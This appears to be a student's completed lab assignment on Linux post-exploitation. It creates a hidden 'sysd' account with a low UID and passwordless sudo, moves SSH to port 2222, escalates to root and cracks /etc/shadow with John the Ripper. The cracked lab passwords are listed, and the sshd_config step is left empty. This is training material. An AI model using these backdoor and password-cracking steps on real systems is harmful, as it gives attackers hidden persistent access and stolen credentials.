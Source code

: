 ## Advanced Bash - Owning the System



**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd sysd `

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 28 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 28 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `usermod -aG sudo sysd`

6. Test that `sudo` access works without your password:

    ```
    sudo -l
    sudo -lU sysd
    sudo -v
    sudo adduser frank
    sudo deluser frank
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    
    ```

**Step 3: Testing The Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su root

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root
    - john /etc/shadow

    • sysadmin:passw0rd:18387:0:99999:7:::
    • student:Goodluck!:18387:0:99999:7:::
    • mitnik:trustno1:18387:0:99999:7:::
    • babbage:freedom:18387:0:99999:7:::
    • lovelace:dragon:18387:0:99999:7:::
    • stallman:computer:18387:0:99999:7:::
    • turing:lakers:18387:0:99999:7:::
    • sysd:password:18841:0:99999:7:::
---
